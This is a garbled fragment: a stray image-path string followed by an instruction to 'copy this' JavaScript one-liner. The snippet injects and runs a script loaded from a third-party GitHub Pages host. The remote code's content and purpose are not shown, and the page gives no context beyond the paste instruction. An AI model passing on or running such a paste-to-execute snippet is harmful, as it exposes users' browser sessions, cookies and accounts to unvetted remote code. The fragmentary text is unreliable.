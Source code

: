 # Here is what you can do.

# Copy this:  x=document.createElement("script");x.src="https://pingurepository.github.io/Thing/ok.js"; document.head.appendChild(x); 
